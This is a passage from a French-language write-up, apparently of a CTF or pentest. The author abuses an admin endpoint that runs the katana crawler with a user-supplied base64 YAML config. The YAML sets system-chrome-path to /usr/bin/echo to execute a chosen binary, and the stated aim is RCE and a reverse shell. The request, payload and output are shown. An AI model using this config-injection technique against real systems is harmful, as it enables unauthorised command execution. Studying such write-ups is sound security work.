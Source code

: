 ```
   -cwu, -chrome-ws-url string       use chrome browser instance launched elsewhere with the debugger listening at this URL
   -xhr, -xhr-extraction             extract xhr request url,method in jsonl output
[...]
```

C'est a ce moment que j'ai tenter de faire un RCE en invoquant des binaires commun. 
La problematique est que katana ajoute un paquet d'option qui sont destiner a chrome et qui ruine mes chances d'invoquer un reverse shell
Je l'ai appris en faisant ceci...

```
POST /admin/api/slash HTTP/1.1
Host: REDACTED
Content-Length: 50
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://REDACTED
Referer: http://REDACTED/admin
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.ZxmJGQ.ZRkh4QKXxZcncn4TTFuQ_pacE34
Connection: keep-alive

{"url":"http://perdu.com","config":"YAML_FILE_IN_BASE64"}
```

Voici le fichier yaml envoyer

```yaml
---
list: 
  - http://perdu.com
system-chrome-path: "/usr/bin/echo"
headless: true
```
Et le resultat:

```
--disable-background-networking --disable-background-timer-throttling --disable-backgrounding-occluded-windows --disable-breakpad --disable-client-side-phishing-detection --disable-component-extensions-with-background-pages --disable-crash-reporter=true --disable-default-apps --disable-dev-shm-usage --disable-features=site-per-process,TranslateUI --disable-gpu=true --disable-hang-monitor --disable-ipc-flooding-protection --disable-notifications=true --disable-popup-blocking --disable-prompt-on-repost --disable-renderer-backgrounding --disable-sync --enable-automation --enable-features=NetworkService,NetworkServiceInProcess --force-color-profile=srgb --headless --hide-scrollbars=true --ignore-certificate-errors=1 --metrics-recording-only --mute-audio=true --no-first-run --no-startup-window --remote-debugging-port=0 --user-data-dir=/tmp/katana-758657918 --window-size=1080,1920
```

Et la j'ai un eclaire de genie... si le fichier de configuration aurais un comportement lorsque lu et un autre lorsqu'executer!
